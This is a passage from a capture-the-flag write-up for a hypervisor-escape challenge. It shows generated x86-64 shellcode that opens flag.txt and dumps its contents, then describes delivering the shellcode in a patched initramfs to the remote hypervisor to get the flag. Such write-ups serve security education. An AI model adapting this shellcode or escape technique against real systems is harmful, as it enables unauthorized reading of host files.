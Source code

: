 When we execute `python gen-shellcode.py`, we get our C-style formatted shellcode which we can plug into our main.c:

```bash
fane@ctf-box:~/dicer-visor$ python gen-shellcode.py
const char *shellcode = "\x48\x31\xd2\x6a\x01\xfe\x0c\x24\x48\xb8\x66\x6c\x61\x67\x2e\x74\x78\x74\x50\x6a\x02\x58\x48\x89\xe7\x31\xf6\x0f\x05\x41\xba\xff\xff\xff\x7f\x48\x89\xc6\x6a\x28\x58\x6a\x01\x5f\x99\x0f\x05";
const size_t shellcode_len = 47;
```

### Getting the flag

Finally we run `build.sh` to create the `initramfs_patched.cpio.gz` that contains the modified `init` script and our `main` binary. When we connect to the remote and provide our `initramfs_patched.cpio.gz` for the hypervisor to use, our userland program gets executed when the kernel boots, we perform the trip to the hypervisor, and dump the contents of `flag.txt`!

`dice{dicer-visor-rules}`